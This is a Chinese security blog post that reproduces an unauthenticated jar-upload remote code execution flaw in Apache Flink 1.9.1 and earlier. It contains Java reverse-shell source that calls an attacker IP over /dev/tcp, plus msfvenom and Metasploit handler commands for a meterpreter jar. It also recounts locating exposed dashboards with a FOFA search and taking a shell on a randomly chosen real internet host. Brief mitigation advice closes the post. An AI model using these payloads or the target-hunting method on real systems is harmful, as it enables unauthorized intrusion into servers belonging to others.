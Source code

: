 ```yaml
---
title: "Apache Flink任意Jar包上传导致远程代码执行"
date: 2019-11-13T11:57:15+08:00
draft: false
tags: ['远程代码执行漏洞']
categories: ['漏洞复现']
---
```

看到公众号发了预警,所以就去复现了下

<!--more-->

# 漏洞描述:

2019年11月11号，安全工程师Henry Chen披露了一个Apache Flink未授权上传jar包导致远程代码执行的漏洞。由于Apache Flink Dashboard 默认无需认证即可访问,通过上传恶意jar包并触发恶意代码执行,从而获取shell.

# 影响范围
<= 1.9.1(最新版本)

# 环境搭建:
(1)  提前安装好java(需要java8以上)

![图片](https://ae01.alicdn.com/kf/U67e5dc74affc41079fc778934023c36fO.jpg)

(2)  下载flink-1.9.1

下载地址:[https://www.apache.org/dyn/closer.lua/flink/flink-1.9.1/flink-1.9.1-bin-scala_2.11.tgz](https://www.apache.org/dyn/closer.lua/flink/flink-1.9.1/flink-1.9.1-bin-scala_2.11.tgz)

(3)  解压下载的压缩包:

```
tar -zxf flink-1.9.1-bin-scala_2.11.tgz
```
(4)  进去到解压后的目录中,来到其bin目录下:

![图片](https://ae01.alicdn.com/kf/U8b11b37eb6234fea8f229c4c0625f5c68.jpg)

(5)   启动flink:
```
./start-cluster.sh
```
(6)  浏览器访问验证(默认端口为8081):

[http://172.26.1.108:8081](http://172.26.1.108:8081)

![图片](https://ae01.alicdn.com/kf/U99519d83a539419fb84879908c4b3c6e2.jpg)

出现上图即搭建成功.

(7)  设置开机自启(这里折腾了好久,一直起不来.直接source /etc/rc.d/rc.local可以启动,但是重启后并不会启动flink,最后在一篇博客中找到了解决方法)

![图片](https://ae01.alicdn.com/kf/U164fe58019ce411f9d20e4ed69d858c2Y.jpg)

开机自启设置参考:[https://www.cnblogs.com/aaronlinux/p/6804531.html](https://www.cnblogs.com/aaronlinux/p/6804531.html)

# 漏洞复现:
## jar包制作步骤:
(1)  参考[https://klionsec.github.io/2016/09/27/revese-shell/#menu](https://klionsec.github.io/2016/09/27/revese-shell/#menu)文中给出的利用java反弹shell

![图片](https://ae01.alicdn.com/kf/U656b35ae92b940418cdd1d7f4649c417T.jpg)

记得修改ip和端口:

![图片](https://ae01.alicdn.com/kf/Udc7af3e8653447ecba8ff75fd58418e3c.jpg)

代码:

```
package shell;
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
    public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.1.12/9999;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```
(2)  利用eclipse将其导出为一个可执行的jar包:
a. 点击 File-->Export(导出)

![图片](https://ae01.alicdn.com/kf/U71e29ec0fdb9416eb59cd576dcacba1eI.jpg)

b.然后选择java-->Runnable JAR file

![图片](https://ae01.alicdn.com/kf/Ue70247287beb4c4ea36f73fef1c1d1e3O.jpg)

c.然后选择对应的java项目和导出路径以及导出文件名

![图片](https://ae01.alicdn.com/kf/U5573b19b2e4d4fc7a418f6cd5cca80deK.jpg)

这样就生成了一个反弹shell的jar包

## msf生成jar马:
(1)   利用msfvenom来生成一个jar马:
```
msfvenom -p java/meterpreter/reverse_tcp LHOST=172.26.1.156 LPORT=9999 W >text.jar
```
(2)  打开msf的监听模块,并监听9999端口(要与我们jar马设置的端口一致)
```
use exploit/multi/handler
set payload java/meterpreter/reverse_tcp
set LHOST 172.26.1.156
set LPORT 9999
exploit
```
(3)  上传我们生成的jar马并提交后(这部分操作参考下面的复现),可以看到我们成功接收到shell:

![图片](https://ae01.alicdn.com/kf/U338594f3162f4cdb969acb78d45fe4bau.jpg)

## 本地复现:
(1)  访问目标:

![图片](https://ae01.alicdn.com/kf/U8c47f70561ed492583d979eb63200165N.jpg)

(2)  点击Submit New job,打开上传jar包的页面:

![图片](https://ae01.alicdn.com/kf/Ubcff626a9ca144ef83ddfad56485e5116.jpg)

(3)  点击Add New选择我们制作好的jar包:

![图片](https://ae01.alicdn.com/kf/Udc26e0c49a1f485b87a0eae0e88488a8d.jpg)

(4)  我们的机器上监听好端口(我们制作的jar包是直接反弹shell的)
(5)  点击我们刚刚上传的jar包:

![图片](https://ae01.alicdn.com/kf/Ub00fe9f70aeb4b65bd3aeaef3974acf01.jpg)

(6)  然后点击Submit即可,可以看到我们已经成功接收到了shell:

![图片](https://ae01.alicdn.com/kf/Uc38aed7456904c5c9148068ebd4020feV.jpg)

## 互联网站点:
fofa关键词:

"apache-flink-dashboard" && country="US"

![图片](https://ae01.alicdn.com/kf/U441dbddb36db4fee953936554ca4560ej.jpg)

(1)   随便找一个目标:

![图片](https://ae01.alicdn.com/kf/U0c7a43609a9642e5ae9318049d67c166v.jpg)

(2)  点击Submit new Job,可以看到其可以允许我们上传jar包

![图片](https://ae01.alicdn.com/kf/Ud39cf6e68bb04b3980551774c63fa583D.jpg)

(3)  利用flink上传jar包的功能将我们的jar包上传:

![图片](https://ae01.alicdn.com/kf/Ud3a911eaea7d4fb8b3ca8026982f6af5t.jpg)

(4)  上传后,我们在我们的vps上监听好端口
(5)  然后回到浏览器,选中我们刚刚上传的jar包,然后点击Submitting提交,可以看到我们的vps已经成功接收到了shell

![图片](https://ae01.alicdn.com/kf/U75e79141cc714411ae0045990b8f1239y.jpg)

# 漏洞修复:
建议设置防火墙策略，仅允许白名单ip访问 apache flink服务，并在Web代理（如apache httpd）中增加对该服务的digest认证。

时刻关注官网,等待新版本或补丁更新

# 参考链接:
[flink](https://ci.apache.org/projects/flink/flink-docs-release-1.9/getting-started/tutorials/local_setup.html)[安装](https://ci.apache.org/projects/flink/flink-docs-release-1.9/getting-started/tutorials/local_setup.html)

[https://s.tencent.com/research/bsafe/841.html](https://s.tencent.com/research/bsafe/841.html)

[https://mp.weixin.qq.com/s?src=11&timestamp=1573607236&ver=1971&signature=roySoRWnz5MgPLuikntTt3rx7rWFdFBOOQfI5rmaOe-d1LWj7NEJxkVBvzfjKtpuihSaRk*EVBoHJ5Roh48qdTm3v2jbU8EWAVAs8i3ylp3OOskx7IUXnKXqDU5tcUfn&new=1](https://mp.weixin.qq.com/s?src=11&timestamp=1573607236&ver=1971&signature=roySoRWnz5MgPLuikntTt3rx7rWFdFBOOQfI5rmaOe-d1LWj7NEJxkVBvzfjKtpuihSaRk*EVBoHJ5Roh48qdTm3v2jbU8EWAVAs8i3ylp3OOskx7IUXnKXqDU5tcUfn&new=1)

[https://klionsec.github.io/2016/09/27/revese-shell/#menu](https://klionsec.github.io/2016/09/27/revese-shell/#menu)

